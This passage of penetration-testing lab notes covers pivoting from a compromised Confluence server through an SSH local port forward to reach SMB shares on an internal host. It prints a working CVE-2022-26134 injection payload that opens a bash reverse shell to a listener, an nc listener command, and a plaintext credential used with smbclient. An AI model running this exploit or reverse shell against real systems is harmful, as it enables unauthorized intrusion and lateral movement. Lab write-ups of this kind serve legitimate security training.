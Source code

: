 ```bash
	root        9019  0.0  0.4  13920  9048 ?        Ss   01:05   0:00 sshd: database_admin [priv]
	databas+    9112  0.0  0.2  14052  5944 ?        S    01:05   0:00 sshd: database_admin@pts/1
	databas+   10563  0.0  0.0   6300   656 pts/1    S+   01:21   0:00 grep --color=auto ssh

kill -9 9112
	Connection to 10.4.163.215 closed by remote host.
	Connection to 10.4.163.215 closed.

$ whoami
	confluence
```

- Setup a new connection to establish an SSH connection w/ args for a local port forward
```bash
ssh -N -L 0.0.0.0:4455:172.16.163.217:445 database_admin@10.4.163.215
```
	-L - Local port forward.  Takes args as two sockets:
	IP:PORT:IP:PORT - First socket is listening socket bound to the SSH client machine.  Second socket is where we want to forward the packets to.
	database_admin@10.4.163.215 - Rest of the SSH command is as usual; pointed at the SSH server and user we wish to connect as.

> If done correctly, after providing the SSH creds for database_admin, there'll be no output & it'll look like it's hanging


- Since this reverse shell from CONFLUENCE01 is now occupied with an open SSH session, we need to catch another reverse shell from CONFLUENCE01.
	- We can do this by listening on another port and modifying our CVE-2022-26134 payload to return a shell to that port.
```bash
# Kali tab 1
nc -nlvp 4444

# Kali tab 2
curl -v http://192.168.163.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.154/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```

- Confirm SSH process on CONFLUENCE01
```bash
ss -ntplu
	Netid  State   Recv-Q  Send-Q         Local Address:Port     Peer Address:Port  Process                                                                 ...
	tcp    LISTEN  0       128                  0.0.0.0:4455          0.0.0.0:*      users:(("ssh",pid=5825,fd=4))                                          ...
```

![](ssh-tunnel.new1.png)

- From Kali, list available shares via **smbclient** & download files
```bash
smbclient -p 4455 -L //192.168.163.63/ -U hr_admin --password=Welcome1234
	Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts         Disk      
        Users           Disk

smbclient -p 4455 //192.168.163.63/Scripts -U hr_admin --password=Welcome1234
	Try "help" to get a list of possible commands.
	smb: \> ls
	  .                                   D        0  Tue Sep 13 04:37:59 2022
	  ..                                 DR        0  Tue Sep  6 11:02:37 2022
```